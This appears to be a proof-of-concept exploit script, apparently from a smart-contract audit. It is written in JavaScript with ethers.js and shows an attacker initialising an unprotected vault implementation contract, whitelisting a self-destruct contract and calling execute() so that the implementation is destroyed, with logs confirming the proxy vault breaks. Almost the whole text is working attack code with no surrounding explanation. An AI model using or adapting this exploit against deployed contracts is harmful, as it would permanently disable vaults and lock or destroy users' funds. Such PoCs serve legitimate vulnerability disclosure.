         const baseVault = await BaseVault.deploy(registry.address, supply.address);
        await baseVault.deployed();
        // proxy vault - the vault that's used by the user
        let proxyVault = await deployVault(baseVault, registry, attacker);
    
        const destructorFactory = await ethers.getContractFactory("Destructor");
        const destructor = await destructorFactory.deploy();
    
    
        let destructData = destructor.interface.encodeFunctionData("destruct", [attacker.address]);
    
        const abi = new ethers.utils.AbiCoder();
        const leafData = abi.encode(["address", "address", "bytes4"],
            [attacker.address, destructor.address, destructor.interface.getSighash("destruct")]);
        const leafHash = ethers.utils.keccak256(leafData);
    
        await vaultImpl.connect(attacker).init();
    
        await vaultImpl.connect(attacker).setMerkleRoot(leafHash);
        // we don't really need to do this ownership-transfer, because the contract is still usable till the end of the tx, but I'm doing it just in case
        await vaultImpl.connect(attacker).transferOwnership(ZERO_ADDRESS);
    
        // before: everything is fine
        let implVaultCode = await ethers.provider.getCode(implVaultAddress);
        console.log("Impl Vault code size before:", implVaultCode.length - 2); // -2 for the 0x prefix
        let owner = await proxyVault.owner();
        console.log("Proxy Vault works fine, owner is: ", owner);
    
    
        await vaultImpl.connect(attacker).execute(destructor.address, destructData, []);
    
    
        // after: vault implementation is destructed
        implVaultCode = await ethers.provider.getCode(implVaultAddress);
        console.log("\nVault code size after:", implVaultCode.length - 2); // -2 for the 0x prefix
    
        try {
            owner = await proxyVault.owner();
        } catch (e) {
            console.log("Proxy Vault isn't working anymore.", e.toString().substring(0, 300));
        }
    }
    
    async function deployVault(baseVault, registry, attacker) {
        const nodes = await baseVault.getLeafNodes();
    
        const tx = await registry.connect(attacker).create(nodes[0], [], []);
        const receipt = await tx.wait();
    
        const vaultEvent = receipt.events.find(e => e.address == registry.address);
    
        const newVaultAddress = vaultEvent.args._vault;
        const newVault = await ethers.getContractAt("Vault", newVaultAddress);
        return newVault;
    }
    
    
    if (require.main === module) {
        main()
    }
